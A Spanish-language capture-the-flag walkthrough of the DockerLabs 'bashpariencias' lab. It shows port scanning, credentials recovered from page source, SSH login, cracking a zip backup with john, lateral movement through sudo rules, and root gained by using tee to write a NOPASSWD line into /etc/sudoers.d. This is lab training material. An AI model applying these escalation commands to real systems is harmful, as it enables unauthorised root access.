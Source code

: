 nmap: 80, 8899
![image](https://github.com/user-attachments/assets/3640f876-af5a-4520-8312-e1baa9297e3c)


---

en la pagina principal da un usuario "rosa" y posibles contraseñas en texto plano txt y un sha384:
![image](https://github.com/user-attachments/assets/e5b6b0b1-ddc1-46da-b4d1-14900eaf7de0)


      -UO2eT0CpHqdSJQ6hJty5KVphtPhzWj9WO1clHTMGa3JDZwrnQq4sF86dIHNDz0W1
los pasamos por un sha384: https://emn178.github.io/online-tools/sha384.html

y nos da: 

>e762c3709721038d65fa8365bbd50e88fd5515f56ee41c64e157607793d1bc8ce2ffd67a6e93431008b0cce67fa70c57

si voy a formulario de la pagina principal y voy al código fuente encontramos esto:
![image](https://github.com/user-attachments/assets/8332872b-8231-4713-8063-99ce0c01c9d9)

"rosa:lacagadenuevo" (posible contraseña)
probamos:

     - ssh rosa@172.18.0.2 -p 8899 (porque el puerto 22 esta cerrado)

vemos que podemos entrar:

![image](https://github.com/user-attachments/assets/f944088b-07c4-44f3-ab79-afb6f5c66152)


encontré esto:

![image](https://github.com/user-attachments/assets/5af3897b-ba52-4fde-be0a-01cd25f6cc20)


dentro vamos a la carpeta: cd > cd ./- > abrimos un servidor y en nuestro terminal un curl:

     curl http://172.18.0.2:8080/backup_rosa.zip --output rosa.zip

nos pasamos el zip
![[dockerlabs/medio/bashpariencias/paso1.png]]

nos pide una contraseña así que intentamos un "john"

         zip2john rosa.zip > hash_zip
          john hash_zip

y nos da la contraseña:
![[dockerlabs/medio/bashpariencias/contraseña1.png]]
ingresamos a la terminal victima y con al contraseña vemos lo que dice en "password.txt"
contraseña: hackwhitbash
![[contraseña2.png]]
probamos con "juan" y ahora somos el usuario "juan"
con sudo -l  vemos que carlos ejecuta "tree / cat" 
colocamos:

    sudo -u carlos tree /home/carlos

da que tenemos un directorio con nombre "password" hacemos un
    
    sudo -u carlos cat /home/carlos/password

nos da la contraseña de carlos: chocolateado
![[contraseña3.png]]


con sudo -l  y carlos ejecuta un "tee"
buscamos en: https://gtfobins.github.io/gtfobins/tee/
y seguimos los pasos:

    LFILE=/etc/sudoers.d/carlos
     echo "carlos ALL=(ALL) NOPASSWD: ALL" | sudo tee -a "$LFILE"

ejecutamos "sudo su"
![[dockerlabs/medio/bashpariencias/root.png]]
 y somos root!.
